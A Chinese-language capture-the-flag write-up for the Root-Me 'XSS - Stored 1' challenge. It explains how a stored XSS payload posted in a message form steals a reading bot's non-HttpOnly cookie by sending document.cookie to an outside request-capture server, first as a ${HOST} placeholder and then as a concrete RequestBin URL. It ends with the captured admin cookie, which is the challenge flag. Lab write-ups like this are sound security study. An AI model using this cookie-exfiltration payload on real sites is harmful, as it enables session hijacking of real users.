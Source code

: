 ## [[Root-Me](https://www.root-me.org/)] [[Cracking](https://www.root-me.org/en/Challenges/Web-Client/)] [[XSS - Stored 1](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-1)] [[解题报告](http://exp-blog.com/2019/01/13/pid-2922/)]

------

已经很直白提示是存储型 XSS 题型。

页面需要提交一个表单，在 Message 区测试注入一个 html 代码 `<img src=0 />`，提交后发现直接作为图片元素渲染。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B09%5D%20%5B30P%5D%20XSS%20-%20Stored%201/imgs/01.png)

打开浏览器的开发者工具查看，不难发现 Cookie 并没有标注 `HttpOnly` 属性，说明可以利用 `document.cookie` 发起 XSS 攻击。

多刷新几次页面，发现这台靶机后台有个机器人线程在定时读取我们提交的消息，当读取之后，该消息会被删掉，此时页面底部会提示 `Your messages have been read` 。

而我们要做的就是把 XSS 的 payloads 消息存储到后台，当机器人读取到这条消息时，就会把这个机器人的 Cookie 发送到我们的指定的一台服务器，实现 Cookie 窃取。

假设我们已经搭建了一台服务器 `${HOST}` ，那么可以在 Message 区构造一个这样的 payloads ：

`exp:<script>document.write("<img src=${HOST}?tk="+document.cookie+" />");</script>`

（注：此 payloads 建议直接在页面提交，若使用 Burp Suite 提交注意需要先把 `+` 编码成 `%2B` ，否则会导致服务器报错收不到消息）

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B09%5D%20%5B30P%5D%20XSS%20-%20Stored%201/imgs/02.png)

提交 payloads 消息后，就登录到 `${HOST}` 服务器守株待兔即可 (大概需要等5分钟)，只要机器人读取了这条消息，就能收到其 Cookie 。

对于这个 `${HOST}` 服务器，推荐使用 [RequestBin](https://requestbin.fullcontact.com/) 生成的临时 HTTP 服务器。例如你生成的 HTTP 服务的临时 URL 为 `http://requestbin.fullcontact.com/qnwgrmqn`，则把 payloads 修改为：

`exp:<script>document.write("<img src=http://requestbin.fullcontact.com/qnwgrmqn?tk="+document.cookie+" />");</script>`

当然你也可以选择自己实现一个 HTTP 服务器，但是必须有公网 IP。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B09%5D%20%5B30P%5D%20XSS%20-%20Stored%201/imgs/03.png)

最终收到的 Cookie 为：`ADMIN_COOKIE=NkI9qe4cdLIO2P7MIsWS8ofD6`，其值就是 flag，完成挑战。


![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B09%5D%20%5B30P%5D%20XSS%20-%20Stored%201/imgs/04.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
